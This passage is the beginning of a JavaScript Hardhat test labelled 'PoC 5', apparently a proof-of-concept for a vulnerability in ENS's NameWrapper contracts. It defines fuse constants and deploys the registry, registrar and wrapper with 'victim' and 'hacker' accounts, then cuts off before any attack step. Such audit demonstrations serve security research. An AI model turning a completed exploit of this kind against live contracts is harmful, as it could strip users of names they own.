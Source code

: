 ```javascript=
  return '0x' + packet.name.encode(name).toString('hex')
}

const CANNOT_UNWRAP = 1
const CANNOT_BURN_FUSES = 2
const CANNOT_TRANSFER = 4
const CANNOT_SET_RESOLVER = 8
const CANNOT_SET_TTL = 16
const CANNOT_CREATE_SUBDOMAIN = 32
const PARENT_CANNOT_CONTROL = 64
const CAN_DO_EVERYTHING = 0

describe('PoC 5', () => {
  let ENSRegistry
  let BaseRegistrar
  let NameWrapper
  let NameWrapperV
  let MetaDataservice
  let signers
  let dev
  let victim
  let hacker
  let result
  let MAX_EXPIRY = 2n ** 64n - 1n

  before(async () => {
    signers = await ethers.getSigners()
    dev = await signers[0].getAddress()
    victim = await signers[1].getAddress()
    hacker = await signers[2].getAddress()

    EnsRegistry = await deploy('ENSRegistry')
    EnsRegistryV = EnsRegistry.connect(signers[1])
    EnsRegistryH = EnsRegistry.connect(signers[2])

    BaseRegistrar = await deploy(
      'BaseRegistrarImplementation',
      EnsRegistry.address,
      namehash('eth')
    )

    await BaseRegistrar.addController(dev)
    await BaseRegistrar.addController(victim)

    MetaDataservice = await deploy(
      'StaticMetadataService',
      'https://ens.domains'
    )

    NameWrapper = await deploy(
      'NameWrapper',
      EnsRegistry.address,
      BaseRegistrar.address,
      MetaDataservice.address
    )
    NameWrapperV = NameWrapper.connect(signers[1])
    NameWrapperH = NameWrapper.connect(signers[2])

    // setup .eth
    await EnsRegistry.setSubnodeOwner(
      ROOT_NODE,
      labelhash('eth'),
      BaseRegistrar.address
```